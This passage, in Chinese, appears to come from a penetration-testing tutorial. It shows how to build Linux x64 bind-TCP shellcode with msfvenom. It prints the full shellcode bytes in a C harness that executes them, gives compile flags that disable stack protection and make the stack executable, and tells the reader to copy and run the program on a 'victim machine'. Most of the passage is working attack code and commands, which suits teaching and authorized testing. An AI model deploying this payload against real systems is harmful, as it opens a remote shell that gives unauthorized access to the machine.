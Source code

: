 让我们尝试在 Linux 上创建绑定 TCP shellcode：

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell/bind_tcp -b "\x00" -f c
```

这里很简单：`-a`指定架构，然后我们指定平台为 Linux，然后选择我们的有效载荷为`linux/x64/shell/bind_tcp`，然后使用`-b`选项去除不良字符`\x00`，最后我们指定格式为 C。让我们执行一下看看：

![](img/00227.jpeg)

现在，将那个 shellcode 复制到我们的 C 代码中：

```
#include<stdio.h>
#include<string.h>
unsigned char code[] =
"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xdd\x0a\x08\xe9\x70\x39\xf7\x21\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb7\x23\x50\x70\x1a\x3b"
"\xa8\x4b\xdc\x54\x07\xec\x38\xae\xa5\xe6\xd9\x2e\x0a\xe9\x61"
"\x65\xbf\xa8\x3b\x60\x18\xb3\x1a\x08\xaf\x2e\xd8\x53\x62\xdb"
"\x28\x36\xf2\x69\x4b\x60\x23\xb1\x7f\x3c\xa7\x77\x82\x60\x01"
"\xb1\xe9\x8f\xe7\x69\x54\xdc\x45\xd8\xb9\x53\xd5\x60\x87\xb8"
"\x0f\xe6\x75\x71\x61\x69\x4a\x55\x07\xec\x8f\xdf\xf7\x21";

int main()
{
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
}
```

然后，将其复制到我们的受害者机器上。现在，编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bin-tcp-msf.c -o bin-tcp-msf
$ ./bin-tcp-msf
```
